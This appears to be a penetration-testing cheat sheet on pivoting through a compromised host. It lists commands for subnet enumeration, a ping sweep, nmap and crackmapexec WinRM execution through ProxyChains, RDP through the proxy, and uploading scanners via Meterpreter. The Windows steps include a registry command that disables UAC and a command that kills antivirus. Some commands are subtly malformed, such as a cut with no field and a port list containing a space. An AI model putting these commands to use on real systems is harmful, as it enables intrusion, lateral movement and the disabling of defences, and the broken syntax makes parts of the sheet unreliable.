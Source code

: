 # Scanning though a pivot    
## Subnet Enumeration Commands    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Nmap scan through a dynamic SOCKS proxy (only -sT will work):    

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
Use WinRM through proxychains:    

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
RDP through ProxyChains:     

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      

## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    

